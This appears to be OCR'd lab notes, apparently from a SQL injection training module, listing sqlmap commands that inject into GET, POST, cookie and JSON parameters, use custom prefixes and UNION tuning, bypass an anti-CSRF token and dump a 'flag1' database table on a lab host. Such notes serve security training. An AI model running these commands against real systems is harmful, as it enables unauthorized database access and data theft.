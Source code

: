 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="cookie=XSSisFun; id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --cookie="cookie=XSSisFun" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://83.136.254.47:49729/case7.php?id=1 --union-cols=5 --dump --no-cast
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:49729/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```
